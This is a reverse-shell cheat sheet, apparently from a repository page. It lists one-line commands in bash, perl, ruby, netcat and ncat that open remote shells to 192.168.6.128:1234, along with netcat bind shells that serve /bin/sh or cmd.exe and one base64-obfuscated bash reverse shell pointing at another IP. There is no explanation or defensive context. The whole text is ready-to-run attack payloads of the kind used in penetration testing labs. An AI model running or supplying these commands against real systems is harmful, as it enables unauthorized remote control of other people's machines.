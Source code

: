 - nc.exe -lvp 4444 -e /bin/sh
- nc.exe -lvp 3333 -e cmd.exe

### reverse shell

- BASH REVERSE SHELL
bash -i >& /dev/tcp/192.168.6.128/1234 0>&1
bash -c "echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xOC4yMjMuMTM1LjE1My8xMjM0IDA+JjE= | base64 -d | bash -i"

BASH REVERSE SHELL
0<&196;exec 196<>/dev/tcp/192.168.6.128/1234; sh <&196 >&196 2>&196

BASH REVERSE SHELL
exec 5<> /dev/tcp/192.168.6.128/1234; cat <&5 | while read line; do $line 2>&5>&5; done

PERL REVERSE SHELL
perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"192.168.6.128:1234");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'

PERL REVERSE SHELL
perl -e 'use Socket;$i="192.168.6.128";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

PERL REVERSE SHELL WINDOWS
perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"192.168.6.128:1234");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'

RUBY REVERSE SHELL
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("192.168.6.128","1234");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'

RUBY REVERSE SHELL
ruby -rsocket -e'f=TCPSocket.open("192.168.6.128",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

RUBY REVERSE SHELL WINDOWS
ruby -rsocket -e 'c=TCPSocket.new("192.168.6.128","1234");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'

NETCAT REVERSE SHELL
nc -c /bin/sh 192.168.6.128 1234

NETCAT REVERSE SHELL
nc -e /bin/sh 192.168.6.128 1234

NETCAT REVERSE SHELL
/bin/sh | nc 192.168.6.128 1234

NETCAT REVERSE SHELL
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.6.128 1234 >/tmp/f

NETCAT REVERSE SHELL
rm -f /tmp/p; mknod /tmp/p p && nc 192.168.6.128 1234 0/tmp/p

NCAT REVERSE SHELL
ncat 192.168.6.128 1234 -e /bin/sh
